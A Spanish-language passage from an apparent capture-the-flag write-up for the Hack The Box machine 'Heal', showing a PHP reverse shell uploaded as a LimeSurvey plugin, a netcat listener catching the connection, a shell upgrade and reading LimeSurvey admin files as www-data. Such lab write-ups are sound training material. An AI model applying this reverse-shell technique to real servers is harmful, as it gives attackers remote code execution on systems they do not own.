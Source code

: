 

<figure><img src="../../.gitbook/assets/imagen (256).png" alt=""><figcaption></figcaption></figure>

accedemos a [http://take-survey.heal.htb/upload/plugins/Y1LD1R1M/php-rev.php](http://take-survey.heal.htb/upload/plugins/Y1LD1R1M/php-rev.php)



```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.46] 49700
Linux heal 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 22:15:53 up  1:24,  0 users,  load average: 0.09, 0.06, 0.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@heal:/$
```



```bash
www-data@heal:~/limesurvey/admin$ ls -l
total 8
-rwxr-x--- 1 www-data www-data   33 Sep 27 10:27 admin.php
-rwxr-x--- 1 www-data www-data 1103 Sep 27 10:27 index.php
www-data@heal:~/limesurvey/admin$ cat index.php 
<?php

/*
* LimeSurvey
* Copyright (C) 2007-2011 The LimeSurvey Project Team / Carsten Schmitz
* All rights reserved.
* License: GNU/GPL License v2 or later, see LICENSE.php
* LimeSurvey is free software. This version may have been modified pursuant
* to the GNU General Public License, and as distributed it includes or
* is derivative of works licensed under the GNU General Public License or
* other free or open source software licenses.
* See COPYRIGHT.php for copyright notices and details.
*/

$config_folder = dirname(__FILE__) . '/../application/config/';
$config_file = $config_folder . 'config.php';
if (!file_exists($config_file)) {
    $config_file = $config_folder . 'config-sample-mysql.php';
}
define('BASEPATH', dirname(__FILE__) . '/..'); // To prevent direct access not allowed
$config = require($config_file);

```